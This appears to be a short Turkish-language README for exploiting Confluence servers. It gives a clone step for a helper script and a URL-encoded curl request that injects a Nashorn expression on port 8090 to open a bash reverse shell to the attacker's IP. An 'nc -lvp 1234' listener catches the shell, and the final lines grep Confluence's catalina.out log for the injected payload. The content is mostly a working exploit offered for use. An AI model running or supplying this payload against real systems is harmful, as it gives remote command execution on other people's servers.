 # aybs
# git clone https://github.com/asyebvailnac/aybs/blob/main/aybalas.py
# ls çalıştır bak gelmiş mi benim py
# sonra basit komutlar tek tek

# curl -v  http://zafiyetli_ip:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/senin_ip/1234%200%3E%261%27%29.start%28%29%22%29%7D/

# arkada nc -lvp 1234

# shell attıktan sonra şuraya git
# /opt/atlassian/confluence/logs
# En son bu şekilde ara
# cat catalina.out | grep -i “eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20”
# şöyle de doğrula
# head -n50 (50.satıra kadar al demek bu) catalina.out bunu dene
